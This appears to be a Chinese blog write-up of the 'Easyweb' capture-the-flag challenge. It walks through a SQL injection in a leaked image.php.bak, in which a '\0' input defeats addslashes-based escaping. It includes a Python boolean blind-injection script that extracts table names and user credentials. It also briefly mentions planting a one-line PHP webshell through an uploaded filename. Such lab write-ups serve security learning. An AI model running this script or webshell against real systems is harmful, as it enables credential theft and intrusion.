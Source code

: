 ```yaml
---
title: Easyweb
date: 2021-04-02 19:02:57
tags: wp

---
```

## ' - '     

![](https://ftp.bmp.ovh/imgs/2021/04/ee8f89b00a61ccff.png)    
`robots.txt`    

         
	User-agent: *
	Disallow: *.php.bak        

有`image.php.bak`       



	```php
	<﻿?php
	include "config.php";
	
	$id=isset($_GET["id"])?$_GET["id"]:"1";
	$path=isset($_GET["path"])?$_GET["path"]:"";
	
	$id=addslashes($id);
	$path=addslashes($path);
	
	$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
	$path=str_replace(array("\\0","%00","\\'","'"),"",$path);
	
	$result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
	$row=mysqli_fetch_array($result,MYSQLI_ASSOC);
	
	$path="./" . $row["path"];
	header("Content-Type: image/jpeg");
	readfile($path);      
	```     


`addslashes`函数


	返回字符串，该字符串为了数据库查询语句等的需要在某些字符前加上了反斜线。这些字符是单引号（'）、双引号（"）、反斜线（\）与 NUL（NULL 字符）。      

`image.php?id=1`sql注入     

绕过`id=\0`        

`\0`经过addslashes函数后是`\\0`，然后`\0`替换围殴空格，只剩下了`\`，从而转义`'`         





	```python
	import requests
	import time
	
	url='http://984ea44f-1a99-475f-877c-e0285554e586.node3.buuoj.cn/image.php?id=\\0&path= or '
	flag=''
	st='JFIF'           JFIF是那个图片
	
	for j in range(1,100):
	    s=32
	    l=128
	    mid=(s+l)//2
	    while(s<l):
	        time.sleep(0.1)
	        #payload="ascii(substr(database(),{},1))>{} %23".format(j,mid)
	        #payload="ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{} %23".format(j,mid)
	        #payload="ascii(substr((select group_concat(column_name) from information_schema.columns where table_name=0x7573657273),{},1))>{} %23".format(j,mid)
	        payload="ascii(substr((select group_concat(username,0x2626,password) from users),{},1))>{} %23".format(j,mid)
	        url_new=url+payload
	        r=requests.get(url=url_new)
	        if st  in r.text:
	            s=mid+1
	        else:
	            l=mid
	        mid=(s+l)//2
	    if(mid==32 or mid==132):
	        break
	    flag=flag+chr(mid)
	    print(flag)
	```     




登录后是传文件，需要在文件名写一句话，用短标签绕过对`php/i`的过滤        
然后出现log路径，但我用蚁剑连不上，？？？        


就这吧，记一次文件名上传一句话木马        

http://t.zoukankan.com/wangtanzhi-p-12253918.html